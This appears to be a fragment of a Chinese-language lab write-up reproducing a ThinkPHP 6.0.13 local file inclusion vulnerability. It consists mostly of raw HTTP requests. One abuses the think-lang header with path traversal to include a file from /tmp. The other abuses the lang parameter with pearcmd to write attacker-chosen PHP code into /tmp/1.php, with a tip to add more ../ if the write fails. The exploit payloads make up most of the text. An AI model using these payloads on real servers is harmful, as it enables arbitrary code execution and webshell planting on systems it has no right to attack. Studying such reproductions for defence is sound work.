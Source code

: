 ![]()

查看

    
    
    docker exec -it 20c58ef53381 /bin/bash

![]()

包含hello.php

    
    
    GET /public/index.php HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    think-lang:../../../../../../../../tmp/hello  
    Cookie: think_lang=zh-cn  
    Connection: close

浏览器访问

![]()

## TP - 6.0.13-Pearcmd x GET

需要根据实际情况改变文件名称，写不进去可以考虑多加点../

    
    
    GET /public/index.php?lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=phpinfo()?>+/tmp/1.php HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=zh-cn  
    Connection: close

![]()

查看是否成功

![]()
